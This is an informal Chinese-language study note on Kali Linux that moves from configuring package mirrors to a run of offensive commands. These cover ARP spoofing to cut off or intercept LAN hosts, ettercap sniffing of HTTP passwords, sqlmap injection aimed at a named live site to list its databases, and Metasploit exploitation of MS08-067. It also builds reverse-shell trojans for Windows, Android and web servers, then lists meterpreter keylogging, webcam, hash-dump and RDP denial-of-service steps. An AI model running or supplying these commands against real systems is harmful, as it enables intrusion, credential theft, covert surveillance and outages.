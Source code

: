 ##kali虚拟机常见的问题
在本机和虚拟机间的文件交互
- 
- 安装vmtool
- 先解压
- tar vxzf VMtool
- 然后启动vmware-tools


##kali的系统的更新
更新源
root@icunqiu:~# leafpad /etc/apt/sources.list
出现图形化界面
然后在里面加入阿里和中科的更新源
#中科大kali源
deb http://mirrors.ustc.edu.cn/kali sana main non-free contrib
deb http://mirrors.ustc.edu.cn/kali-security/ sana/updates main contrib non-free
deb-src http://mirrors.ustc.edu.cn/kali-security/ sana/updates main contrib non-free
#阿里云kali源
deb http://mirrors.aliyun.com/kali sana main non-free contrib
deb http://mirrors.aliyun.com/kali-security/ sana/updates main contrib non-free
deb-src http://mirrors.aliyun.com/kali-security/ sana/updates main contrib non-free

root@icunqiu:~# apt-get update

root@icunqiu:~# apt-get dist-upgrade

##kali的系统美化
KDE桌面安装
apt-get install kde-f



##开始使用kali
sqlmap：相当于win下面的名小子，NBSI

##局域网断网攻击也叫arp攻击
工具：arpspoof

指令：arpspoof -i 网卡 -t 目标ip 网关
kali：网卡 eth0
目标：192.168.31.239
默认网关 192.168.1.1

替换掉:arpspoof -i eth0-t 192.168.31.239  192.168.1.1
~# arpspoof -i eth0 -t 192.168.31.22  192.168.1.1

怎么看局域网当中的ip呢？
fping -asg 192.168.31.0/24

为什么断网现象是arp欺骗，却出现断网现象。

出现的错误：
arpspoof: couldn't arp for host
fping -asg 192.168.0.100/24     查看局域网中存活的主机

先ping一下目标主机，看是否ping得通

要攻击需要知到目标ip,网关（网关是啥？）,本机网卡（eth0）。

arpspoof -i eth0 -t 目标IP 网关

 


ps:如果出现arpspoof: couldn't arp for host ，要把虚拟机设置成桥接，或者关闭目标防火墙。


#ARP欺骗
目标的ip 流量会经过我的网卡，从网关出去
（进行ip流量转发）
#ARP断网
目标的ip 流量会经过我的网卡


##进行ip流量转发：
root@icunqiu:~# echo 1 >/proc/sys/net/ipv4/ip_forward
root@icunqiu:~#  vim /proc/sys/net/ipv4/ip_forward
echo ***>/proc/---不会有回显



###driftnet  -》》获取本机网卡的图片
目标的ip他的流量会经过我的网卡 ---》网关
driftnet -i eth0



#http账号密码获取
Arpspoof  -》》欺骗


ettercap----》》欺骗  嗅探 

ettercap -Tq -i eth0
-Tq  启动文本模式
即可监控该ip的http密码



##开启命令行模式
ctrl+alt+f1
/etc/init.d/ssh/  start  开启ssh
然后就可以用xshell连接了


##sststrip
能把https的链接还原为http

端口不一样前者80后者443
http+ssl构建的可进行加密传输





##注入php网站
- sqlmap -u "http://www.tmsyy.com/list.php?fid=3"
- 检测
- 
- 
- sqlmap -u "http://www.tmsyy.com/list.php?fid=3" --is-dba
- 检测是否是dba权限
- 
- sqlmap -u "http://www.tmsyy.com/bencandy.php?fid=168&id=7299" --dbs
- 列出所有的数据库
- 
- sqlmap -u "http://www.tmsyy.com/bencandy.php?fid=168&id=7299" --current-db
- 查询当前表
- 
- sqlmap -u "http://www.tmsyy.com/bencandy.php?fid=168&id=7299" --tables -D "ggec"
- 猜解数据库的表名  根据数据库 


    第一讲.Metasploit框架介绍
    第二讲.Metasploit升级更新
    第三讲.Metasploit端口扫描
    第四讲.Metasploit SMB 获取系统信息
    第五讲.Metasploit 服务识别
    第六讲.Metasploit 密码嗅探
    第七讲.Metasploit SNMP 扫描
    第八讲.Metasploit SMB登陆验证
    第九讲.Metasploit VNC身份识别
    第十讲.Metasploit WMAP Web扫描

##metasploit
输入msfconsole 
- Exploit模块 -》》漏洞利用
- Payloads   -》》shellcode

###使用模块
use exploit/windows/smb/ms08_67_netapi

##选择漏洞利用模块
show options
查看要填入的参数
set RHOST 192.168.31.1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST selfip
执行：exploit

##metasploit 执行远控
这个有教程：http://www.i0day.com/1173.html

1.根据自己的ip生成一个木马
我们的ip是192.168.102.136
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.102.136 LPORT=55555 X > abc.exe


2.use exploit/multi/handler
show options
set PAYLOAD　windows/meterpreter/reverse_tcp

使用这个shellcode
LHOST = 192.168.102.136
LPORT = 55555
这里填生成木马的ip和端口




#木马常用功能
background
sessions 1


##注入进程： 木马随时可能被结束
ps：得到我们要注入的进程
Migrate xxx注入
2036 2004 expoler.exe 这个进程是桌面

##远程桌面
Run vnc  开启远程桌面


##木马文件管理功能
- download     
- edit
- cat
- cd
- mkdir
- mv
- rm
- pwd
- upload
- rmdir


##网络及系统操作
Arp                看缓冲表
ifconfig           ip地址网卡 
getproxy           获取代理
netstat            查看端口链接

kill 结束进程
ps  查看进程
reboot 重启
Reg 修改注册表
shell 拿取shell
shutdown 关闭电脑
sysinfo 系统信息

##用户操作和其他功能讲解
enumdesktops    用户登录数目
keyscan_dump
keyscan_start
keyscan_stop
uictl
webcam_chat
webcam_list
webcam_stream
getsystem  获取高权限
hashdump   下载hash密文


##生成android木马
msfpayload android/meterpreter/reverse_tcp LHOST=192.168.102.136 R > Desktop/abc.apk

安装木马 然后开启exploit即可



##服务器蓝屏攻击
DDOS
服务器开启3389
确定目标  ip
MS12 020

我们服务器远程桌面的一个利用模块
auxliary/scanner/rdp/ms12_020_check
扫描主机是否存在漏洞

RHOST R 开头，远程主机 


目的：比ddos来的更直接一些，但是重启就解决了


##拿webshell
msfpayload webshell/meterpreter/reverse_tcp LHOST=192.168.102.136 R > Desktop/web.shell

安装木马 然后开启exploit即可


#用jsfuck绕过xss验证的某些部分
http://www.jsfuck.com/


>1. 使用String.fromCharCode来避免关键字，如String.fromCharCode(97,108,101,114,116,40,49,41); 
>2. 使用URL编码来避免括号的识别，如location=’alert%281%29’; 
>
3.使用正则对象的特点来避开引号，如alert(/1/);
